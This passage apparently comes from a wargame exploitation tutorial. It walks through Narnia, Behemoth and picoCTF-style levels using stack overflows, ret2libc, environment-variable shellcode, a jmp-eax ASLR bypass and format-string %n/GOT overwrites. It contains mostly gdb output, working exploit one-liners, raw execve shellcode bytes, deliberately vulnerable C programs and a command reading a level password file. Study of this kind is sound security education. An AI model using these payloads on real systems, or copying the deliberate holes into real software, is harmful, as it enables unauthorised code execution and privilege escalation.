   gdb-peda$ run `python -c 'print "A"*8 + "BBBB" + " " + "C"*8 + "DDDD"'`
   [-------------------------------------code-------------------------------------]
      0x80486d7 <main+335>:    lea    eax,[esp+0x20]
      0x80486db <main+339>:    mov    DWORD PTR [esp],eax
      0x80486de <main+342>:    mov    eax,DWORD PTR [esp+0x28]
   => 0x80486e2 <main+346>:    call   eax
      0x80486e4 <main+348>:    mov    DWORD PTR [esp],0x1
      0x80486eb <main+355>:    call   0x8048450 <exit@plt>
      0x80486f0 <__libc_csu_fini>: push   ebp
      0x80486f1 <__libc_csu_fini+1>:   mov    ebp,esp
   Guessed arguments:
   arg[0]: 0xffffd380 ("DDDD")
   Breakpoint 1, 0x080486e2 in main (argc=0x3, argv=0xffffd444) at narnia6.c:48
   48      fp(b1);
   gdb-peda$ p b1
   $1 = "DDDD\000AAA"
   gdb-peda$ p b2
   $2 = "CCCCCCCC"
   gdb-peda$ p puts
   $3 = {<text variable, no debug info>} 0xf7eb3360 <puts>
   gdb-peda$ p system
   $4 = {<text variable, no debug info>} 0xf7e8bc30 <system>
   gdb-peda$ p &b1
   $5 = (char (*)[8]) 0xffffd380
   gdb-peda$ x/50xw 0xffffd350
   0xffffd360: 0xffffd380  0xffffd5df  0x0000003b  0x0804874b
   0xffffd370: 0x00000003  0xffffd444  0x43434343  0x43434343
   0xffffd380: 0x44444444  0x41414100  0x42424242  0x00000000
   0xffffd390: 0x08048700  0xf7fb0ff4  0xffffd418  0xf7e66e46
   0xffffd3a0: 0x00000003  0xffffd444  0xffffd454  0xf7fde860
   gdb-peda$ p fp
   $6 = (int (*)(char *)) 0x42424242
   gdb-peda$ p &fp
   $7 = (int (**)(char *)) 0xffffd388
   gdb-peda$ p $fp
   $8 = (void *) 0xffffd398

 The address of fp "p &fp" is 0xffffd3888 which has a value of ("p fp") 0x42424242. As previously the stack is NoteXecutable, but stdlib.h is included in the C Program. Stdlib.h includes system call which has an address of ("p system") 0xf7e8bc30. Further DDDD overwrites AAAA with the Null byte.

 ::

   narnia6@melinda:/narnia$ ./narnia6 `python -c 'print "A"*8 + "\x40\x1c\xe6\xf7" + " " + "C"*8 + "/bin/sh"'`
   $ cat /etc/narnia_pass/narnia7


* Let's see another example where we have to use a environment variable to invoke a shell Narnia8.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    // gcc's variable reordering fucked things up
    // to keep the level in its old style i am 
    // making "i" global unti i find a fix 
    // -morla 
    int i; 

    void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;
        
        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
            bok[i]=blah[i];

        printf("%s\n",bok);
    }

    int main(int argc, char **argv){
            
        if(argc > 1)       
            func(argv[1]);
        else    
        printf("%s argument\n", argv[0]);

        return 0;
    }

 Let's see what is happening here: for loop in function func copies data from blah to bok character array until a null character is found. Let's see how the stack would look like 
 ::

    <bok character array><blah pointer><fp><ret><pointer b>

 Let's confirm this by using gdb? We put an breakpoint on printf function in the func function. 

 ::

    0xffffd670: 0x08048580  0xffffd688  0x00000014  0xf7e54f53
    0xffffd680: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd690: 0x41414141  0x41414141  0x00414141  0xffffd8b1
    0xffffd6a0: 0x00000002  0xffffd764  0xffffd6c8  0x080484cd
    0xffffd6b0: 0xffffd8b1  0xf7ffd000  0x080484fb  0xf7fca000

 Address 0xffffd689 marks the start of the character buffer bok. I entered 19 A so it's 0x41 19 times followed by null 0x00. Followed by that is 0xffffd8b1 (Value of Blah pointer). Followed by fp 12 bytes <0x00000002 0xffffd764 0xffffd6c8>. Followed by 0x080484cd which is the return address

 ::

    (gdb) x/s 0x080484cd
    0x80484cd <main+31>:    "\353\025\213E\f\213"

 followed by pointer b (0xffffd8b1). Let's see what's at location 0xffffd8b1

 ::

    (gdb) x/20wx 0xffffd8b1
    0xffffd8b1: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8c1: 0x00414141  0x5f474458  0x53534553  0x5f4e4f49

 Let's see what happens when we try to enter more than the 19 character (buffer size of bok - 1 byte (for null character))

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'`
    AAAAAAAAAAAAAAAAAAAA����
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'` | hexdump 
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d8bf ffff 0a02               
    000001a

 As expected, we get A followed by some garbage. which is the address where blah is pointing. We know that we can overwrite the RET address by

 ::

    # `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 Let's see what happens when we do this. After copying 20 A it copies \x90 and makes blah pointer from 0xffffd8bf to 0xffffd890. Because of the for loop

 ::

    for(i=0; blah[i] != '\0'; i++)

 It now copies the character from 0xffffd890 reference i.e 0xffffd890 + i value. Suppose it copied the character 0x41. The address becomes 0xffff4190 and now for loop searches from that address until a null character is found.

 ::

    (gdb) x/20xw $esp
    0xffffd660: 0xffffd678  0x00000000  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd890
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffffd890
    0xffffd890: 0x2f61696e  0x6e72616e  0x00386169  0x41414141
    0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8b0: 0x90909090  0x41414141

    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffff4190
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffff4190
    0xffff4190: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41a0: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41b0: 0x00000000  0x00000000

 If we can somehow keep/change the blah pointer back to it's original value we may overwrite the RET pointer (after 12 bytes). Let's see how 0xffffd89c looks when is used 
 ::

    `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 ::

    (gdb) x/30xw 0xffffd89c
    0xffffd89c: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8ac: 0x41414141  0x90909090  0x41414141  0x41414141
    0xffffd8bc: 0x41414141  0x42424242  0x47445800  0x5345535f

 When we used the below with the address, we were able to overwrite the RET by BBBB. Now, we control the EIP :)

 ::

    (gdb) run `python -c 'print "A"*20 + "\x9c\xd8\xff\xff" + "A"*12 + "BBBB"'`


    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd89c
    0xffffd690: 0x41414141  0x41414141  0x41414141  0x42424242

 Let's export a shellcode using a environment variable check it's address on the stack and redirect the flow of our code to it. Notice the number of NOPs we have put for easy identification plus reachability.

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Searching our environment variable we get it at address 0xffffd8d4.

 ::

    (gdb) x/100xw $esp+500
    0xffffd7e4: 0x0000000f  0xffffd80b  0x00000000  0x00000000
    0xffffd7f4: 0x00000000  0xde000000  0x1a2a5992  0xf11444ea
    0xffffd804: 0x11433cf3  0x694a71a2  0x00363836  0x672f0000
    0xffffd814: 0x73656d61  0x72616e2f  0x2f61696e  0x6e72616e
    0xffffd824: 0x00386169  0x41414141  0x41414141  0x41414141
    0xffffd834: 0x41414141  0x41414141  0xffffd828  0x41414141
    0xffffd844: 0x41414141  0x41414141  0x42424242  0x47445800
    0xffffd854: 0x5345535f  0x4e4f4953  0x3d44495f  0x35343239
    0xffffd864: 0x45485300  0x2f3d4c4c  0x2f6e6962  0x68736162
    0xffffd874: 0x52455400  0x74783d4d  0x006d7265  0x5f485353
    0xffffd884: 0x45494c43  0x353d544e  0x34392e39  0x2e31362e
    0xffffd894: 0x20343731  0x37373835  0x32322032  0x48535300
    0xffffd8a4: 0x5954545f  0x65642f3d  0x74702f76  0x31312f73
    0xffffd8b4: 0x5f434c00  0x3d4c4c41  0x47450043  0x90903d47
    0xffffd8c4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8d4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8e4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8f4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd904: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd914: 0x90909090  0x90909090  0x99580b6a  0x2f2f6852
    0xffffd924: 0x2f686873  0x896e6962  0xcdc931e3  0x53550080
    0xffffd934: 0x6e3d5245  0x696e7261  0x4c003861  0x4f435f53
    0xffffd944: 0x53524f4c  0x3d73723d  0x69643a30  0x3b31303d

 Let's redirect our program to 0xffffd8d4 to get the shell

 ::

    (gdb) run `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /games/narnia/narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`

    Breakpoint 1, 0x080484a7 in func ()
    (gdb) c
    Continuing.
    AAAAAAAAAAAAAAAAAAAA(���AAAAAAAAAAAA����(���
    process 19900 is executing new program: /bin/dash
    Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    $ 

 Trying this without gdb didn't work because the address of character array changes

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` 
    AAAAAAAAAAAAAAAAAAAA(A��
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 4128 ffff 0a02               
    000001a

 Changing 28 to 0a just by chance gave me the correct address to be pointed at

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x0a\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d837 ffff 0a03               

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x37\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'`          
    AAAAAAAAAAAAAAAAAAAA7���BBBBBBBBBBBB����7���
    $ 

 For example, below you need the address of secret to write the new value 0x1337beef.

 .. code:: c

    unsigned secret = 0xdeadbeef;

    int main(int argc, char **argv){
        unsigned *ptr;
        unsigned value;
        char key[33];
        FILE *f;
        printf("Welcome! I will grant you one arbitrary write!\n");
        printf("Where do you want to write to? ");
        scanf("%p", &ptr);
        printf("Okay! What do you want to write there? ");
        scanf("%p", (void **)&value);
        printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
        *ptr = value;
        printf("Value written!\n");
        if (secret == 0x1337beef){
            printf("Woah! You changed my secret!\n");
            printf("I guess this means you get a flag now...\n");

            f = fopen("flag.txt", "r");
            fgets(key, 32, f);
            fclose(f);
            puts(key);
            exit(0);
        }
        printf("My secret is still safe! Sorry.\n");
    }


* In another challenge below, It can be easily seen the value of secret can be changed after entering 16 characters + 0xc0deface. As, 0xc0deface can't be printed as ASCII characters, you can use python to pass the input.

 ::

    python -c ' print "A" * 16 + "\xc0\xde\xfa\xce"' or python -c ' print "A" * 16 + "\xce\xfa\xde\xc0"' based on the endianess of the system.

 .. code:: C 

   void give_shell(){ 
        gid\_t gid = getegid(); 
        setresgid(gid, gid,gid); 
        system("/bin/sh -i"); }

   void vuln(char \*input){ 
        char buf[16]; 
        int secret = 0; 
        strcpy(buf,input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }

   }

   int main(int argc, char \*\*argv)
   { if (argc > 1) 
        vuln(argv[1]); 
        return 0; }


* Controlling the EIP: In the below challenge, an attacker can use a buffer overflow to take control of the program's execution. the return address for the call to vuln function is above buf on the stack, so it can be overwritten with an overflow. this allows an attacker to put nearly any address they desire in place of the return address. in this example, the goal is to call the give\_shell function.

 * We need to find the address of give\_shell function which can be done either by using gdb and print give\_shell or objdump -d outputfile \| grep give\_shell.
 * To know the EIP offset, you can use cyclic patterns. Use pattern\_create.rb and pattern\_offset.rb So pattern\_create.rb 100 for instance will create a 100 byte cyclic pattern. 
 * Then you feed this as your input to the vulnerable program and it will crash. so get the value of EIP at that point.
 * Then, we just need to pass the input to the program by 
 
  ::

    ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )

  ::
  
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    /* This never gets called! */
    void give_shell(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
         system("/bin/sh -i");
    }

    void vuln(char *input){
         char buf[16];
         strcpy(buf, input);
    }

    int main(int argc, char **argv){
         if (argc > 1)
            vuln(argv[1]);
            return 0;
    }


* Execute Me: If you check the below code, getegid() function shall return the effective group ID of the calling process., setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. If you see, read function read the stdin into the buffer and (function\_ptf) buf() function is called which would call anything in the buffer.

 * Since, buf will execute anything, we need a shell code to fit in 128 bytes, There are plenty of shellcode (with different platforms and different working)which can be found on Shell-Storm.
 * Then, we just need to pass the input to the program by
   ::
     
     ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )
   
   ::

     #include <stdio.h>
     #include <stdlib.h>

     int token = 0;

     typedef void (*function_ptr)();

     void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

     int main(int argc, char **argv){
              char buf[128];

              be_nice_to_people();
              read(0, buf, 128);
              ((function_ptr)buf)();
      }


* ROP1: This binary is running on a machine with ASLR! (Address space layout randomization (ASLR) is a computer security technique involved in protection from buffer overflow attacks.) Can you bypass it?

 * From the code provided we can see that there’s a buffer overflow in the vuln() function due to the strcpy() call. run the program within gdb and see what the state of the registers and the stack are at the time of the crash.
 * From the cylic patterns tools, we could find that offset is at 76 which could be confirmed by providing a input of 76 “A”s and 4 “B”s to overwrite EIP. set a breakpoint after the call to strcpy(); that is \*vuln+24. After the leave instruction is executed, EIP will be set to 0x424242.

 * EAX points to our buffer of “A”s and since the binary doesn’t have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this:

 * Since the binary is compiled for 32 bit, searching the shellcode in Shellstorm for Linux\_x86 executing /bin/sh, we get 21 bytes shellcode in kernelpanic.

 * As EAX contains the 76\*A + BBBB when the vuln function returns, we just need to find address which will execute JMP EAX, it can be found by msfelfscan -j eax binary\_file

 * One more small but important observation is the number of NOPs, as our shellcode is 21 bytes and offset is 76 bytes and jmp is 4 bytes. So, 76 - 21 - 4 = 51.

  .. code:: python

    import struct
    code = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
    jmpeax = struct.pack("<I",0x080483e7)
    print "\x90"*51 + code + jmpeax


  .. code:: C

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
 
    void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

    void vuln(char *name){
         char buf[64];
         strcpy(buf, name);
    }

    int main(int argc, char **argv){
        be_nice_to_people();
        if(argc > 1)
           vuln(argv[1]);
           return 0;
    }



Format String Examples
======================

Let's see a simple example of a format string vulnerabilty. 

* Narnia5

 ::  
 
   include <stdio.h>
   include <stdlib.h>
   include <string.h>

   int main(int argc, char \*\*argv){ 
        int i = 1; char buffer[64];
        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
          printf("GOOD\n");
          system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
   }
   
 Let's try to see what's on stack and if we can put something on stack and change the value of i.

 ::

  narnia5@melinda:~$ /narnia/narnia5
  %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 -> 500.
  No way...let me give you a hint! buffer :
  [f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.62653766.36656436.6666662e.] (63) i
  = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 ->
        500. No way...let me give you a hint! buffer :
        [AAAAf7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.41414141.62653766.36656] (63) i
        = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.ffffd6cc.62653766.36656] (63)
        i = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8..62653766.36656436.6666] (63)
        i = 40 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%468x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. GOOD $ 


* In this example, let's see use of arbitary writing an address Narnia7

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>

    int goodfunction();
    int hackedfunction();

    int vuln(const char *format){
            char buffer[128];
            int (*ptrf)();

            memset(buffer, 0, sizeof(buffer));
            printf("goodfunction() = %p\n", goodfunction);
            printf("hackedfunction() = %p\n\n", hackedfunction);

            ptrf = goodfunction;
            printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

            printf("I guess you want to come to the hackedfunction...\n");
            sleep(2);
            ptrf = goodfunction;
      
            snprintf(buffer, sizeof buffer, format);

            return ptrf();
    }

    int main(int argc, char **argv){
            if (argc <= 1){
                    fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                    exit(-1);
            }
            exit(vuln(argv[1]));
    }

    int goodfunction(){
            printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
            fflush(stdout);
            
            return 0;
    }

    int hackedfunction(){
            printf("Way to go!!!!");
        fflush(stdout);
            system("/bin/sh");

            return 0;
    }

 If we see, the program provides us with the address of the ptrf pointer, goodfunction and bad function. The ptrf is assigned the address of goodfunction if we somehow change it to address of the badfunction, we can get a shell. Let's run the program and see what are the address we get.

 ::

    ./narnia71 A
    goodfunction() = 0x804871f
    hackedfunction() = 0x8048745

    before : ptrf() = 0x804871f (0xffb4450c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 and

 ::

    narnia7@melinda:/narnia$ ./narnia7 A
    goodfunction() = 0x80486e0
    hackedfunction() = 0x8048706

    before : ptrf() = 0x80486e0 (0xffffd64c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 The reason I have added two running instances is because in the first instance the address is different by one byte 0x1f and 0x45 where as in the second instance the address differs by two bytes 0x86e0 and 0x8706. We can write two bytes by %hn and one byte by %hhn. We can write whole 4 byte address by following a formula

 ::

    If HOB < LOB

    HOB:0x0804
    LOB:0x8706

    [addr+2][addr] = \x4e\xd6\xff\xff\x4c\xd6\xff\xff
    %.[HOB - 8]x   = 0x804 - 8 = 7FC (2044) = %.2044x
    %[offset]$hn   = %6\$hn
    %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x
    %[offset+1]$hn = %7\$hn

    `python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'`

 We also need to find the offset where the address is stored which can be done by two methods: Either compiling the program on local machine and checking the buffer just after snprintf

 ::

    gdb-peda$ p buffer 
    $2 = "AAAA.000008a2.f7fdeb58.f7fde860.0804835c.0804871f.41414141.3030302e.61383030", '\000' <repeats 51 times>

 or by using ltrace

 ::

    narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c 'print "AAAA" + ".%08x"*7'`
    __libc_start_main(0x804868f, 2, 0xffffd764, 0x8048740 <unfinished ...>
    memset(0xffffd620, '\0', 128)                                                                                          = 0xffffd620
    printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
    )                                                                             = 27

    )                                                                         = 30
    printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd61cbefore : ptrf() = 0x80486e0 (0xffffd61c)
    )                                                           = 41
    puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
    printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
    )                                                                            = 50
    sleep(2)                                                                                                               = 0
    snprintf("AAAA.08048238.ffffd678.f7ffda94."..., 128, "AAAA.%08x.%08x.%08x.%08x.%08x.%0"..., 0x8048238, 0xffffd678, 0xf7ffda94, 0, 0x80486e0, 0x41414141, 0x3038302e) = 67
    puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
    )                                                                            = 61
    fflush(0xf7fcaac0)                                                                                                     = 0
    exit(0 <no return ...>
    +++ exited (status 0) +++

 If you see 0x41414141 is at offset 6.

 ::

    gdb-peda$ p ptrf
    $3 = (int (*)()) 0x804871f <goodfunction>
    gdb-peda$ p &ptrf
    $4 = (int (**)()) 0xffffd2ec
    gdb-peda$ x /10xb 0xfffd3ea
    0xfffd3ea:  Cannot access memory at address 0xfffd3ea
    gdb-peda$ x /10xb 0xffffd3ea
    0xffffd3ea: 0x3f    0x77    0x00    0x00    0x00    0x00    0x00    0x00
    0xffffd3f2: 0x00    0x00
    gdb-peda$ x /10xb 0xffffd2ea
    0xffffd2ea: 0x04    0x08    0x1f    0x87    0x04    0x08    0x41    0x41
    0xffffd2f2: 0x41    0x41
    gdb-peda$ p goodfunction 
    $5 = {int ()} 0x804871f <goodfunction>
    gdb-peda$ p ha
    hackedfunction  hasmntopt       
    gdb-peda$ p hackedfunction 
    $6 = {int ()} 0x8048745 <hackedfunction>

 ::

    gdb-peda$ p &ptrf 
    $10 = (int (**)()) 0xffffd2fc
    gdb-peda$ run `python -c 'print "\xfc\xd2\xff\xff" + ".%08x"*5 + "%hhn"'`
    gdb-peda$ p ptrf 
    $12 = (int (*)()) 0x8048731 <goodfunction+18>
    gdb-peda$ x /10xb 0xffffd2fa
    0xffffd2fa: 0x04    0x08    0x31    0x87    0x04    0x08    0xfc    0xd2
    0xffffd302: 0xff    0xff


* Let's see another example Behemoth3 where we have only the assembly code of the program and we exploit this by two methods by overwriting the GOT address or overwriting the return address.

 Assembly Source Code:

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x0804847d <+0>: push   %ebp
       0x0804847e <+1>: mov    %esp,%ebp
       0x08048480 <+3>: and    $0xfffffff0,%esp
       0x08048483 <+6>: sub    $0xe0,%esp
       0x08048489 <+12>:    movl   $0x8048570,(%esp)
       0x08048490 <+19>:    call   0x8048330 <printf@plt>
       0x08048495 <+24>:    mov    0x80497a4,%eax
       0x0804849a <+29>:    mov    %eax,0x8(%esp)
       0x0804849e <+33>:    movl   $0xc8,0x4(%esp)
       0x080484a6 <+41>:    lea    0x18(%esp),%eax
       0x080484aa <+45>:    mov    %eax,(%esp)
       0x080484ad <+48>:    call   0x8048340 <fgets@plt>
       0x080484b2 <+53>:    movl   $0x8048584,(%esp)
       0x080484b9 <+60>:    call   0x8048330 <printf@plt>
       0x080484be <+65>:    lea    0x18(%esp),%eax
       0x080484c2 <+69>:    mov    %eax,(%esp)
       0x080484c5 <+72>:    call   0x8048330 <printf@plt>
       0x080484ca <+77>:    movl   $0x804858e,(%esp)
       0x080484d1 <+84>:    call   0x8048350 <puts@plt>
       0x080484d6 <+89>:    mov    $0x0,%eax
       0x080484db <+94>:    leave  
       0x080484dc <+95>:    ret    
    End of assembler dump.

 Observed Behavior:

 ::

    behemoth3@melinda:/tmp/rahul3$ ./behemoth3 
    Identify yourself: HelloCheck123
    Welcome, HelloCheck123

    aaaand goodbye again.

 Well, we tried to provide a very large input to the Identify yourself, but it didn't not gave a segmentation fault. Let's try format string:

 ::

    behemoth3@melinda:/tmp/rahul3$ echo `python -c 'print "A"*4 + ".%08x"*7'` | ./behemoth3 
    Identify yourself: Welcome, AAAA.000000c8.f7fcac20.00000000.00000000.f7ffd000.41414141.3830252e

    aaaand goodbye again.

 Trying simple format string provided us with the offset of our format string. Now we can write almost any address with any value with our input. Before that let's put a environment variable shellcode and check it's address:

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Let's core dump the binary using %s and examine the core. Our shellcode can be reached at 0xffffd8f0

 * Either we can overwrite the return address (main+95): Let's debug the program set the breakpoint at main+95 and see the value of $esp which would be use to find the return address when binary is executed without gdb. The valueis 0xf7e3ba63 and the return address which needed to be overwrriten is 0xffffd65c. Let's again core dump the binary to see the return address without gdb.

  ::

    (gdb) find $esp,+2000,0xf7e3ba63
    0xffffd66c
    1 pattern found.

  So, if we overwrite the return address at 0xffffd66c with our shellcode value of 0xffffd8f0, we should get a shell. 

  ::

     python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff" +"%.65527x%6$hn %.55503x%7$hn"' > input98

  This is little tricky because we might have to guess the return address without gdb. Previously it was coming 0xffffd66c but we got shell using 0xffffd65c.

 * overwrite the puts GOT address: Find the GOT address of puts which is 0x08049790 and overwrite it with

  ::

   python -c 'print "\x92\x97\x04\x08\x90\x97\x04\x08" +"%.65527x%6$hn %.55503x%7$hn"'


* In the below code, if we can somehow set the value of secret to 1337, we can get a shell on the system to read the flag. Also, the printf function directly prints the argument whatever is passed by the user. By concepts above, we need to find the address of secret and write to it. Address of the secret can be found by gdb or objdump. Either the address would be already present on stack or it can be put on stack.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <fcntl.h>

    int secret = 0;

    void give_shell(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }

    int main(int argc, char **argv){
        int *ptr = &secret;
        printf(argv[1]);

        if (secret == 1337){
            give_shell();
        }
        return 0;
    }

 Reading the address

 ::

    pico83515@shell:/home/format$ gdb -q format
    Reading symbols from format...(no debugging symbols found)...done.
    (gdb) p $secret
    $1 = void
    (gdb) p &secret
    $2 = (<data variable, no debug info> *) 0x804a030 <secret>

 Now we have to find whether is this address present on the stack? If not, we can put this address on the stack because of the format string vulnerability.

 ::

    pico83515@shell:/home/format$ ./format %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
    ffffd774.ffffd780.f7e4f39d.f7fc83c4.f7ffd000.0804852b.0804a030.08048520.00000000

 We see that the address is present on the stack at the seventh position. Otherwise, we can put it on the stack by

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141

 What this is doing is "Extracting particular stack content by "%$i$x". As we have seen in DMA, $x can be used to extract particular stack content and reading it. $i value changes from 1-256. However, as you add more data, the offset of your original input changes, so go ahead and add 1333 more bytes of data and see what the offset is then. (1337 is what we want to put into secret, and we will have written four bytes (AAAA), so 1333+4 = 1337)

 ::

    or i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
    Offset: 103:AAAA41410074
    Offset: 104:AAAA31254141

 So we found our A’s again, but they aren’t aligned on the stack. Lets add two more A’s at the end to see if we can get it to line up.

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
    Offset: 103:AAAA41414141

 It looks like the address 0x0804a030 is getting placed in \*ptr. That’s the address we need to use in place of our A’s. In order to place the number 1337 into secret’s memory address, we need to use the %n modifier. (%103$n will look at the data located at offset 103 as a memory address, and write the total number of bytes we have written so far into that address.) 
 ::

   pico1139@shell:/home/format$: env -i ./format $:`(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103`\ nAA"') 
   $ id
   uid=11066(pico1139) gid=1008(format) groups=1017(picogroup) $ ls
   Makefile flag.txt format format.c $ cat flag.txt
   who\_thought\_%n\_was\_a\_good\_idea?

 Otherwise as the address at the seventh is already present on stack we can also do
 ::

  plain pico83515@shell:/home/format$ ./format "%1337u%7$n"

